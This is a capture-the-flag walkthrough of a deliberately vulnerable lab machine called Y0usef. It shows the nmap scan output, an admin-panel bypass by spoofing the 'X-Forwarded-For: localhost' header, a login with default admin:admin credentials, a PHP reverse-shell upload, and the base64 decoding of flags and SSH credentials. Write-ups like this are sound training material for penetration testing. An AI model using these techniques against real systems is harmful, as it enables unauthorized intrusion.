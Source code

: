 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


Lets check the Victim Machine IP Address ⤵️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled.png)

```
 IP : 10.0.2.39
```

## Port Scan Results ⤵️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/y0usef]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.39
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 21:41 IST
Nmap scan report for 10.0.2.39
Host is up (0.00054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d8e0998c76f186a3ce09c819a41dc7e1 (DSA)
|   2048 82b020bc04ea3fc2cf73c3d4fab54b47 (RSA)
|   256 034db0704dcf5a4a87c3a5ee84ccaacc (ECDSA)
|_  256 64cdd0af6e0d201301963b8d163ad61b (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Ubuntu)
MAC Address: 08:00:27:9F:07:8D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%202.png)

Now with Directory Listing I got a directory named as `/administrator/` with 301 status .

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%204.png)

Now with burpsuite I see no redirect sites so lets add one [localhost](http://localhost) as redirect ⤵️

`X-Forwarded-For: localhost`

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%205.png)

Now lets forward this request ➡️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%206.png)

Now I tried `admin : admin` and I got in ➡️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%207.png)

Now let’s upload our reverse shell file ⬇️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%208.png)

Now lets load the url ⬇️

> [http://10.0.2.39/adminstration/upload/files/1682664347shell.php](http://10.0.2.39/adminstration/upload/files/1682664347shell.php)
> 

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%209.png)

```bash
www-data@yousef-VirtualBox:/home$ cat user.txt
cat user.txt
c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=
www-data@yousef-VirtualBox:/home$

Attackers Machine >>

┌──(kali㉿kali)-[~/Downloads/Proving_Ground/y0usef]
└─$ echo "c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=" | base64 -d
ssh : 
user : yousef 
pass : yousef123
```

Lets see yousef user is capable of ⤵️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%2010.png)

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%2011.png)

```bash
root@yousef-VirtualBox:/root# cat root.txt
cat root.txt
WW91J3ZlIGdvdCB0aGUgcm9vdCBDb25ncmF0dWxhdGlvbnMgYW55IGZlZWRiYWNrIGNvbnRlbnQgbWUgdHdpdHRlciBAeTB1c2VmXzEx
root@yousef-VirtualBox:/root#

Attackers Machine >>

┌──(kali㉿kali)-[~/Downloads/Proving_Ground/y0usef]
└─$ echo "WW91J3ZlIGdvdCB0aGUgcm9vdCBDb25ncmF0dWxhdGlvbnMgYW55IGZlZWRiYWNrIGNvbnRlbnQgbWUgdHdpdHRlciBAeTB1c2VmXzEx" | base64 -d
You've got the root Congratulations any feedback content me twitter @y0usef_11
```